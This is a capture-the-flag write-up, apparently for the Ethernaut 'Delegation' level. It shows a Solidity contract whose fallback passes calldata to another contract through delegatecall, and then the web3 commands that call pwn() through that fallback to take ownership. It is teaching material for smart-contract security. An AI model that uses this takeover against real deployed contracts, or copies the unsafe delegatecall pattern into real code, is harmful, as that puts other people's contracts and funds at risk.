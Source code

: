 # Level 6 - Delegation

### Objective

The objective of this level is as follows:

1. Claim ownership of the contract

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Delegate {

  address public owner;

  constructor(address _owner) public {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Solution

In this level, we take advantage of the `delegatecall` function (which is the fallback method of `Delegation`).

We first obtain the hash of the `pwn()` function:

```
signature = web3.eth.abi.encodeFunctionSignature("pwn()")

```

Then, we use it as a data parameter in `sendTransaction` to invoke the fallback method:

```
await contract.sendTransaction({ from: player, data: signature })

```

This will update the storage variable `owner` to `msg.sender`, which is our address:

```
await contract.owner() === player

```

Done!
